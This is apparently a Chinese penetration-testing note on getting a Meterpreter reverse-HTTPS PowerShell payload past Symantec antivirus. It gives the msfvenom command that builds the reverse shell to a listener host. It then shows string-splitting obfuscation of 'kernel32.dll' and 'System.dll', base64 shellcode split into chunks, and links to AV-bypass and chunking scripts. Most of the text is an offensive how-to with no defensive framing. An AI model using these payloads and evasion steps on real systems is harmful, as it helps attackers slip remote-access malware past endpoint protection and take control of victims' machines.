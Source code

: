 	生成
	msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.0.108 LPORT=443 -f psh-net -o shity_shellcode.ps1
![image](/assets/Pentest_Note/master/img/700.png)

	先来测试一下，把ps1文件的shellcode换成一段无害的字符串
![image](/assets/Pentest_Note/master/img/701.png)
![image](/assets/Pentest_Note/master/img/702.png)

	结果发现还是被查杀了
![image](/assets/Pentest_Note/master/img/703.png)

	这表明大多数检测来自PowerShell模板，而不是Shellcode本身。
	下面几种bypass方法
	1.将字符串分成几部分并创建中间变量；
	2.添加大量垃圾备注；
	3.添加一些垃圾指令，例如循环或睡眠指令（对于沙盒有用）。
	[DllImport("kernel32.dll")]
	变为
	[DllImport("ke"+"rne"+"l32.dll")] #可绕过赛门铁克
	$przdE.ReferencedAssemblies.AddRange(@("System.dll",[PsObject].Assembly.Location))
	变为
	$magic="Syst"+"em"+".dll";
	$przdE.ReferencedAssemblies.AddRange(@($magic,[PsObject].Assembly.Location))
	分割shellcode
	$sc0=<shellcode的第1部分>; …$sc7=<shellcode的第8部分>; [Byte[]]$tcomplete_sc=[System.Convert]::FromBase64String($sc0+$sc1+…+$sc7)
	一些细节可参照
	https://raw.githubusercontent.com/kmkz/Pentesting/master/AV_Evasion/AV_Bypass.ps1
	我不太懂汇编语言，所以没有添加无害指令。
	这里直接使用一键生成的bash脚本，有时间的可以读读里面的命令
	https://github.com/darksh3llRU/tools/blob/master/psh-net_shellcode_fastchange.sh
	这个脚本是生成个hta的，脚本以1337个字符来分块
![image](/assets/Pentest_Note/master/img/704.png)
	
	我测试的时候1337个字符会被赛门铁克查杀到，我这里修改成250个字符来分块
![image](/assets/Pentest_Note/master/img/705.png)

	因为我没加汇编指令，中间这里直接按任意键跳过即可，懂的可以在开头添加一些指令，例如xor，inc，dec，add，sub，mov，nop等
![image](/assets/Pentest_Note/master/img/706.png)

	执行完后会生成一些文件
![image](/assets/Pentest_Note/master/img/707.png)

	我们只用final_pshnet_revhttps.ps1这个文件，打开修改一下
![image](/assets/Pentest_Note/master/img/708.png)

	修改成
![image](/assets/Pentest_Note/master/img/709.png)
![image](/assets/Pentest_Note/master/img/710.png)
![image](/assets/Pentest_Note/master/img/711.png)